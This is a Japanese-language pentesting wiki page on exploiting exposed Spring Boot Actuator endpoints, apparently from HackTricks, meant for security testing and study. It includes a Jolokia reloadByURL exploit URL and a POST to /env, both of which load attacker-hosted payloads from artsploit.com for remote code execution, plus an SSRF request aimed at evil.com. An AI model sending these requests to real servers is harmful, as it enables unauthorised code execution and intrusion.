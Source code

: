 # Spring Actuators

{{#include ../../banners/hacktricks-training.md}}

## **Spring Auth Bypass**

<figure><img src="../../images/image (927).png" alt=""><figcaption></figcaption></figure>

**From** [**https://raw.githubusercontent.com/Mike-n1/tips/main/SpringAuthBypass.png**](https://raw.githubusercontent.com/Mike-n1/tips/main/SpringAuthBypass.png)

## Spring Boot Actuatorsの悪用

**元の投稿を確認してください** \[**https://www.veracode.com/blog/research/exploiting-spring-boot-actuators**]

### **重要なポイント:**

- Spring Boot Actuatorsは、`/health`、`/trace`、`/beans`、`/env`などのエンドポイントを登録します。バージョン1から1.4では、これらのエンドポイントは認証なしでアクセス可能です。バージョン1.5以降は、デフォルトで非機密なのは`/health`と`/info`のみですが、開発者はこのセキュリティを無効にすることがよくあります。
- 特定のActuatorエンドポイントは、機密データを露出させたり、有害なアクションを許可したりする可能性があります：
- `/dump`、`/trace`、`/logfile`、`/shutdown`、`/mappings`、`/env`、`/actuator/env`、`/restart`、および`/heapdump`。
- Spring Boot 1.xでは、アクチュエーターはルートURLの下に登録されますが、2.xでは`/actuator/`ベースパスの下にあります。

### **悪用技術:**

1. **'/jolokia'を介したリモートコード実行**:
- `/jolokia`アクチュエーターエンドポイントはJolokiaライブラリを公開し、MBeansへのHTTPアクセスを可能にします。
- `reloadByURL`アクションは、外部URLからログ設定を再読み込みするために悪用される可能性があり、盲目的なXXEや作成されたXML設定を介したリモートコード実行につながる可能性があります。
- 例の悪用URL: `http://localhost:8090/jolokia/exec/ch.qos.logback.classic:Name=default,Type=ch.qos.logback.classic.jmx.JMXConfigurator/reloadByURL/http:!/!/artsploit.com!/logback.xml`。
2. **'/env'を介した設定変更**:

- Spring Cloudライブラリが存在する場合、`/env`エンドポイントは環境プロパティの変更を許可します。
- プロパティは、EurekaのserviceURLにおけるXStreamデシリアライズ脆弱性などの脆弱性を悪用するために操作できます。
- 例の悪用POSTリクエスト:

```
POST /env HTTP/1.1
Host: 127.0.0.1:8090
Content-Type: application/x-www-form-urlencoded
Content-Length: 65

eureka.client.serviceUrl.defaultZone=http://artsploit.com/n/xstream
```

3. **その他の有用な設定**:
- `spring.datasource.tomcat.validationQuery`、`spring.datasource.tomcat.url`、および`spring.datasource.tomcat.max-active`のようなプロパティは、SQLインジェクションやデータベース接続文字列の変更など、さまざまな悪用のために操作できます。

### **追加情報:**

- デフォルトのアクチュエーターの包括的なリストは[こちら](https://github.com/artsploit/SecLists/blob/master/Discovery/Web-Content/spring-boot.txt)で見つけることができます。
- Spring Boot 2.xの`/env`エンドポイントは、プロパティ変更のためにJSON形式を使用しますが、一般的な概念は同じです。

### **関連トピック:**

1.  **Env + H2 RCE**:
- `/env`エンドポイントとH2データベースの組み合わせを悪用する詳細は[こちら](https://spaceraccoon.dev/remote-code-execution-in-three-acts-chaining-exposed-actuators-and-h2-database)で見つけることができます。

2.  **不正なパス名解釈によるSpring BootのSSRF**:
- SpringフレームワークのHTTPパス名におけるマトリックスパラメータ（`;`）の処理は、サーバーサイドリクエストフォージェリ（SSRF）を悪用するために利用できます。
- 例の悪用リクエスト:
```http
GET ;@evil.com/url HTTP/1.1
Host: target.com
Connection: close
```
{{#include ../../banners/hacktricks-training.md}}
